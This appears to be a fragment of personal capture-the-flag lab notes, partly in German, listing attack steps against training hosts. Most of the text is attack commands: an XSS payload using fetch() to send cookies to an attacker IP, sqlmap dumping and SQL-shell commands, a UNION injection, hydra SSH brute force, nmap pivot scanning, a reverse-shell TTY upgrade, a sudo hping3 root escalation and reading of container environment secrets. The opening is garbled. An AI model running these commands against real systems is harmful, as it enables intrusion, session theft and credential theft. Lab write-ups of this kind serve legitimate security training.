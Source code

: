 (inside the nc session) CTRL+Z;stty raw -echo; fg; ls; export SHELL=/bin/bash; export TERM=screen; stty rows 38 columns 116; reset;
```
                            ```
                - Environmentvariablen: `printenv`
    - Script Kiddies 
        - Cross Site Scripting
            - payload `<img src="_" onerror="fetch('http://10.183.0.215:8000/?data=' + document.cookies)">` 
    - Jimmys Desktop 
        - Conncection via RDP
            - `xfreerdp /v:jimmys-desktop.user.scenario.cip.institute /u:jimmy /p:jimmy`
        1. Flag
            1. Found password hashes in `.passwords`
            2. Found encryption information in `.bash_history`
                1. Decrypted via: `openssl enc -d -aes-256-cbc -pbkdf2 -base64 -k secretpassword123 -in passwords.txt -out passwords.decrypted.txt`
        2. Flag
            1. Openend presentation (`~/Documents`)
            2. Found flag on slides
        3. Flag
            1. Run linpeas (See **general)**
            2. Found out that `sudo hping3` could be run without sudo password
                1. hping3 basically grants a root shell
        4. Flag
            1. Check Firefox for passwords (not default master password)
    - Mailserver 
        - Flag
            - Mailcow default creds & Doku über Konfiguration
    - Guestbook (10.181.162.137)
        1. Flag
            1. `sqlmap -u 10.181.162.137 --tables --forms --crawl=2 --random-agent --dump -T flag | tee flagdump.txt` 
            2. nicht zu viele threads, aggressiveness nicht super hoch pumpen, eher seichter rangehen
            3. basically immer den capital letters folgen
            4. [SQLmap Tutorial](https://hackertarget.com/sqlmap-tutorial/#blocked)
            5. danach textaufgabe, keine zeit für so nen shit
        2. Flag
            1. sql: `' UNION SELECT 'flag_value' AS name, text FROM flag'` 
            2. sqlmap: `sqlmap -u [http://10.140.162.137/](http://10.183.162.137/) --sql-shell --forms --flush-session --dbms=SQLite` 
                1. [The Schema Table](https://www.sqlite.org/schematab.html) Information can be found in the "sqlite_schema" table 
    - Cantina (pivot scan) (Star Wars movie) 
        - Default password list: [SecLists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt at master · danielmiessler/SecLists · GitHub](https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt?isPin=false?aliasId=nNpvjhbzx4PqQIILw)
        - `hydra -l root -P common-passwords.txt  ssh://10.183.0.106`
        1. Flag
            1. `ls`
        2. Flag
            1. check `.bash_history`
            2. `ip a` ⇒ Interface for hidden subnet found 10.183.2.0/24
            3. `nmap  -p- -sV -T4 --max-hostgroup=10 --max-parallelism=10 -A -sS 10.183.1.111`
            4. `nc 10.183.1.111 1337 | tee movie.txt` (flags can be grepped afterwards (2))
        3. Flag
            1. Check Banner and follow to directory
        4. Flag
            1. `cat /proc/1/environ` for container env vars
    - 10.183.0.156?
    - MitM
        - ARP-spoofing
```